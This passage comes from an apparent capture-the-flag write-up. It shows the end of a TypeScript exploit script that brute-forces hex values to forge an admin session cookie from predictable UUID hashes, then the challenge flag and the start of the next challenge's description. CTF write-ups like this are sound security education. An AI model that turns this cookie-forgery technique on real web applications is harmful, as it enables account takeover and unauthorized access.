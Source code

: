 ```typescript title="exploit.ts"
  for (let i = 0; i < hexChars.length; i++) {
    logger.info(`Trying ${i + 1}/${hexChars.length}`);
    for (let j = 0; j < hexChars.length; j++) {
      for (let k = 0; k < hexChars.length; k++) {
        for (let l = 0; l < hexChars.length; l++) {
          for (let m = 0; m < hexChars.length; m++) {
            for (let n = 0; n < hexChars.length; n++) {
              const hex = `${hexChars[i]}${hexChars[j]}${hexChars[k]}${hexChars[l]}${hexChars[m]}${hexChars[n]}`;
              const hash = md5(`admin${header}${hex}${currentUUID}`);
              if (hashedUUIDs.includes(hash)) {
                r.setCookie('id', `${header}${hex}${currentUUID}`);
                logger.info(`Found the admin: ${hash}`);
                return;
              }
            }
          }
        }
      }
    }
  }
}

await checkAdmin();

await r.get('/').then((res) => logger.flag(res.data));
```

![hell-uuid-2](hell-uuid-2.png)

`lactf{uu1d_v3rs10n_1ch1_1s_n07_r4dn0m}`

## web/85_reasons_why (78 solves, 457 points)

:::tip[description]
If you wanna catch up on ALL the campus news, check out my new blog. It even has a reverse image search feature!
:::
